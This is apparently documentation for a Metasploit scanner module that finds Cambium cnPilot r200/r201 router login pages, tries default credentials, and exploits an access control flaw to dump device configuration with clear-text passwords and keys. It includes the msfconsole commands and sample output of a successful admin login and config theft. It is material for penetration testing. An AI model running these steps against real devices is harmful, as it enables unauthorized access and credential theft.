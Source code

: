 This module scans for Cambium cnPilot r200/r201 management login portal(s), attempts to identify valid credentials, and dump device configuration.
        
The device has at least two (2) users - admin and user. Due to an access control vulnerability, it is possible for 'user' account to access full device config. All information, including passwords, and keys, is stored insecurely, in clear-text form, thus allowing unauthorized 'admin' access to any user.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/cnpilot_r_web_login_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/cnpilot_r_web_login_loot
msf auxiliary(cnpilot_r_web_login_loot) > set rhosts 1.3.3.7
msf auxiliary(cnpilot_r_web_login_loot) > run

[*] 1.3.3.7:80   - Cambium cnPilot confirmed...
[+] 1.3.3.7:80   - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "admin":"admin"
[*] 1.3.3.7:80 - dumping device configuration
[+] 1.3.3.7:80 - Configfile.cfg retrieved successfully!
[+] 1.3.3.7:80   - File saved in: /root/.msf4/loot/20000000000003_default_1.3.3.7_Configfile.cfg_12345.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
